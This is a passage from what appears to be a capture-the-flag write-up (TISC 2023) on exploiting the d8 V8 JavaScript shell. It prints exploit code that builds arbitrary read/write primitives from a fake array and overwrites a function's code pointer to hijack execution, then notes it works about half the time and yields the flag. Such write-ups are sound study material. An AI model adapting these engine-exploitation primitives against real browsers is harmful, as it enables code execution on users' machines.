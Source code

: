 ```javascript
function read64(addr) { // a compressed address
	let new_backing_ptr = (addr - 1n) >> 8n;
	let offset = (addr - 1n) & 0xFFn;
	fake_arr[idx+6n] = itof(new_backing_ptr << 32n);
	let res = 0n;
	for (let i=0n; i<8n; i++) {
		res += (BigInt(aarw_arr[offset+i]) << (i*8n));
	}
	return res;
}

function write64(addr, val) { // a compressed address
	let new_backing_ptr = (addr - 1n) >> 8n;
	let offset = (addr - 1n) & 0xFFn;
	fake_arr[idx+6n] = itof(new_backing_ptr << 32n);
	for (let i=0n; i<8n; i++) {
		aarw_arr[offset+i] = Number(val & 0xFFn);
		val = val >> 8n;
	}
}

let f_addr = addrof(f);
let code = read64(f_addr + 0x18n) & 0xffffffffn;
let code_obj = fakeobj(code);
let inst = read64(code + 0x10n) + 0x61n;
hex(inst);
write64(code + 0x10n, inst);

f();
```

For reasons I still don't quite understand, this exploit only works about half the time. Furthermore, it completely fails to work on the debug build of d8 and segfaults instead.

But these don't matter for now, because we have all that we need to get the flag:

![9_7](/assets/tisc-2023/9_7.png)
